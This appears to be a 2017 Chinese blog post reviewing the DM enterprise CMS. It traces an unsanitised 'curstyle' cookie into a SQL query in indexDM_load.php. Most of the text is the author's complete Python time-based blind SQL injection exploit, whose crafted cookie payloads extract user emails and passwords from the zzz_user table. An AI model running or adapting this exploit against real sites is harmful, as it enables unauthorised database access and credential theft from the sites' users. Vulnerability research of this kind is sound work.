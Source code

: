 ```yaml
---
title: DM企业建站系统前台盲注
date: 2017-01-29 21:24:30
tags: 
 - cms
categories: codereview
---
```


## 概述
今天搞了一下动态调试的东西，然后顺便看了看上次下的[DM企业建站系统2017.01.23](http://www.demososo.com/down.html)。

<!-- more -->

# 前台cookie 时间盲注
大致跟了一下几个入口文件，该套cms主要的安全措施为`htmlentities`，在POST&&GET的输入点做了html实体化的操作，但是这并不转义单引号（默认不转义单引号具体可看[htmlentities](http://www.php.net/manual/en/function.htmlentities.php)），看了一下进行数据库查询的sql语句，涉及到字符串类型时，都是单引号闭合，那么很清楚，在进行数据库查询时容易产生sql注入漏洞。
那么接下来主要找一下进行数据库操作的位置。

1. POST&&GET
2. COOKIE 

ps：这里就随便找了一个地方，因为这套系统注入不要太多，连后台登陆都可以 :P

前面提到对POST&&GET做了实体转义，但是grep找了一下cookie，发现并没有对cookie的值进行安全操作，直接带入数据库查询。
indexDM_load.php Line 108

```
...

if(@$_COOKIE["curstyle"]<>'') 		
    $curstyle = $_COOKIE["curstyle"];
else 
    $curstyle = $row['curstyle'];
    
...

$sqlstyle = "SELECT * from ".TABLE_STYLE." where pidname='$curstyle' $andlangbh limit 1"; 
 //echo $sqlstyle;exit;
if(getnum($sqlstyle)>0){
	$rowstyle = getrow($sqlstyle);
```
上述为漏洞的主要成因点，如果cookie中存在curstyle,优先选用cookie中的值，然后带入数据库查询。由于没有找到具体回显数据的地方，所以采用时间盲注的方式获取数据。

带上自己写的EXP

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Created by wh1t3P1g at 2017/1/30

import requests,time

class CookieBlindSqlInjection:

    def __init__(self,url):
        self.url=url
        self.len=0

    def getLength(self,column,table):
        payload0 = "curstyle=1'||if((select length(cast(bin(length({column})) as char)) from {table} limit {line_start},1)={flag},sleep(5),1)=1#"
        payload1 = "curstyle=1'||if((select substr(bin(length({column})),{col_start},1) from {table} limit {line_start},1)=1,1,sleep(5))=1#"
        #first confirm bin-format data length
        len=0
        for i in range(1,9):
            cookie=payload0.format(column=column,table=table,line_start=0,flag=i)
            flag=self.send(cookie)
            if flag=="0":
                len=i
                break
        res=""
        for i in range(1,len+1):
            cookie=payload1.format(column=column,col_start=i,table=table,line_start=0)
            flag=self.send(cookie)
            res+=flag
            # print res
        self.len=int(res,2)
        pprint("*", "fetch "+column+" length: "+str(self.len))
        return int(res,2)

    def getData(self,column,table):
        payload0="curstyle=1'||if((select length(cast(bin(ascii(substr({column},{data_start},1))) as char)) from {table} limit {line_start},1)={flag},sleep(5),1)=1#"
        payload1 = "curstyle=1'||if((select substr(bin(ascii(substr({column},{data_start},1))),{col_start},1) from {table} limit {line_start},1)=1,1,sleep(5))=1#"
        total_res=""
        for i in range(1,self.len+1):#具体数据的长度
            len = 0
            for j in range(1, 9):
                cookie = payload0.format(column=column,data_start=i, table=table, line_start=0, flag=j)
                flag = self.send(cookie)
                if flag == "0":
                    len = j
                    break
            # print "len:"+str(len)
            res = ""
            for k in range(1, len + 1):
                cookie = payload1.format(column=column,data_start=i, col_start=k, table=table, line_start=0)
                flag = self.send(cookie)
                res += flag
                # print res
            total_res+=chr(int(res,2))
            pprint("*", "fetch "+column+": "+total_res)
        return total_res

    def send(self,cookie):
        headers={"Cookie":cookie}
        try:
            r = requests.get(self.url, headers=headers,timeout=4)
            return "1"
        except:
            return "0"

def pprint(flag,content):
    print "[{flag}] [{time}] {content}" \
        .format(flag=flag, time=time.asctime(time.localtime(time.time())), content=content)

if __name__=='__main__':
    cookieBlindSqlInjection=CookieBlindSqlInjection("http://127.0.0.1/cms/DM/20170123/")
    pprint("*","program start")
    pprint("*", "start fetching column[email]")
    cookieBlindSqlInjection.getLength("email","zzz_user")
    email=cookieBlindSqlInjection.getData("email","zzz_user")
    pprint("*", "start fetching column[ps]")
    cookieBlindSqlInjection.getLength("ps", "zzz_user")
    ps=cookieBlindSqlInjection.getData("ps", "zzz_user")
    pprint("*", "[email]: "+email+" ,[ps]: "+ps)
    pprint("*", "program done")

```

ps:DM这个鬼，代码写的好乱啊T_T




